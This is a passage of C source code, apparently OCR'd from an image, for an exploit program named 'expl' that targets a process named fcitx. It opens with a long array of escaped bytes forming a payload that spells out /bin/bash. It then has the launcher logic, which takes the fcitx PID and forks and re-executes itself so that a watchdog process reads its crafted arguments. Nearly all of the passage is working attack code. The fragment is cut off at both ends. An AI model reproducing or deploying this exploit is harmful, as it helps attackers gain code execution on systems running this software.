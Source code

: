 ```c
", "", "", "", "\x21\x30\x3e\x26\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x49\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x31\x22\x21\x7c\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x4d\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x21\x2f\x62\x69\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x51\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x6e\x2f\x62\x61\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x55\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xd5\x8e\x40", "", "", "", "", "\x73\x68", "", "\x41\x41\x41\x41\xa0\x8f\x41", "", "", "", "", "\x59\xf6\x68", "", "", "", "", "\x62\xe1\x46", "", "", "", "", "\xa0\x8f\x41", "", "", "", "", "\x01", "", "", "", "", "", "", "\x12\x79\x40", "", "", "", "", "\x25\xf6\x68", "", "", "", "", "\xd6\x2d\x46", "", "", "", "", "\xa0\x8f\x41", "", "", "", "", "\x01", "", "", "", "", "", "", "\x12\x79\x40", "", "", "", "", "\x2e\xf6\x68", "", "", "", "", "\xd6\x2d\x46", "", "", "", "", "\xa0\x8f\x41", "", "", "", "", "\x01", "", "", "", "", "", "", "\x12\x79\x40", "", "", "", "", "\x31\xf6\x68", "", "", "", "", "\xd6\x2d\x46", "", "", "", "", "\xa0\x8f\x41", "", "", "", "", "\x01", "", "", "", "", "", "", "\x12\x79\x40", "", "", "", "", "\x49\xf6\x68", "", "", "", "", "\xd6\x2d\x46", "", "", "", "", "\xa0\x8f\x41", "", "", "", "", "\x01", "", "", "", "", "", "", "\x12\x79\x40", "", "", "", "", "\x4f\xf6\x68", "", "", "", "", "\xd6\x2d\x46", "", "", "", "", "\xa0\x8f\x41", "", "", "", "", "\x01", "", "", "", "", "", "", "\x12\x79\x40", "", "", "", "", "\x51\xf6\x68", "", "", "", "", "\xd6\x2d\x46", "", "", "", "", "\x12\x79\x40", "", "", "", "", "\x21\xf6\x68", "", "", "", "", "\x80\x6d\x40", "", "", "", "", "", "", "", "", "", "", "", "", "", (char*)NULL);
}

void rerun(const char* fcitx_pid)
{
	execl("./expl", "./expl", fcitx_pid, (char*)NULL);
}
int main(int argc, char const *argv[])
{
	if (strcmp(argv[0], "./expl") != 0)
	{
		fprintf(stderr, "name of the exploit must be expl\n");
		return -1;
	}
	if (argc <= 1)
	{
		printf("first argument is the lowest pid of process with name containing fcitx\n");
		return -1;
	}
	else if (argc > 2)
	{
		printf("press any key to stop\n");
		getchar();
		//block to let watchdog to fscanf this process' arguments
		return 0;
	}
	else
	{//run directly
		pid_t fcitx_pid = atoi(argv[1]);
		pid_t pid = getpid();
		printf("pid: %u\n", pid);
		//sleep(2); without sleep, the ps -ef and /proc cannot see the process
		//optimization purpose?
		//bug or feature?
		//todo
		if (pid > fcitx_pid)
		{
			pid_t ret = fork();
			if (ret == 0)
			{//child
				rerun(argv[1]);
			}
			else if (ret > 0)
			{//parent
				return 0;
```